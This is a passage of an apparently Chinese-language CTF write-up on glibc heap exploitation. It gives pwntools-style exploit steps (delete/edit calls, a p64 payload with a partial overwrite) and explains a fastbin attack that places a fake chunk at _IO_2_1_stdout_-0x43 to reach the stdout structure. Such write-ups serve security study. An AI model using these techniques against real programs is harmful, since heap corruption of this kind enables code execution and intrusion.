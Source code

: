 ```plain
delete(0)
delete(8)
edit(8,'\x70')
```

同样的手法再来一遍

[![](assets/1701612416-9e0bc9f8076ea82552d0d12657e65018.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170229-57de9bec-14c9-1.png)

[![](assets/1701612416-f47168a39ad949091322967be54c2f1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170235-5bb1e742-14c9-1.png)

```plain
edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
```

这里是把0xe1改为0x71然后才能从fastbin中取出

[![](assets/1701612416-aa857f65e77e76b54b8acad01f8bde47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170302-6b8e73ce-14c9-1.png)  
打fastbin attack将fake\_chunk申请到stdout结构体上方，这个地址是在&\_IO\_2\_1_stdout_\-0x43的位置，因为我们需要一个地址是0x7f开头，同时下一个内存单元为0的地址，这个位置就是符合的。
